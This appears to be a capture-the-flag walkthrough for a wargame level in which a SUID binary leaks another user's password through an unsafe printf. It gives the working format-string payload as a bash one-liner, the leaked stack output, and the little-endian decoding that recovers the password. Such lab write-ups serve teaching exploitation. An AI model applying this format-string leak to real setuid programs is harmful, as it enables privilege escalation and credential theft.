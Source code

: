 # Walkthrough - level02

The program has SUID permissions from the user `level03`, which will allow us to obtain their flag.

## Disassembly

- The main stores the content of `/home/users/level03/.pass` in the variable `ptr`
- Username and password are read via `fgets` of 100 bytes
- When entering incorrect password, username is displayed via insecure printf

## Exploit

The arguments of variadic functions (such as `printf`) are passed through the stack and not through registers. This allows us to dump our stack. Note that we are working on a 64-bit architecture so we need to use the format `%p` to display everything correctly.

```bash
(python -c 'print("%p" * 30)'; python -c 'print("A" * 2)') | ./level02
```

We now need to find the variable `ptr` in what we displayed from the stack. The two `A` characters help us find the start of s2 where the password is stored. We know that we need to look `96 + 8 = 104` bytes further to land on the beginning of ptr where the password is stored. Since the `%p` format dumps the stack by 8 bytes, we need to look `104 / 8 = 13` after displaying the `A` characters.

We obtain the following result:

```bash
0x756e5052343768480x45414a35617339510x377a7143574e67580x354a35686e4758730x48336750664b394d
```

We then need to convert this password to char without forgetting that `%p` has reversed groups of 8 bytes because the system is little-endian, then interpret the values in ASCII to obtain the password.

```
0x756e505234376848 = unPR47hH
0x45414a3561733951 = EAJ5as9Q
0x377a7143574e6758 = 7zqCWNgX
0x354a35686e475873 = 5J5hnGXs
0x48336750664b394d = H3gPfK9M
```

We then only need to invert each groups:

```
unPR47hH => Hh74RPnu
EAJ5as9Q => Q9sa5JAE
7zqCWNgX => XgNWCqz7
5J5hnGXs => sXGnh5J5
H3gPfK9M => M9KfPg3H
```
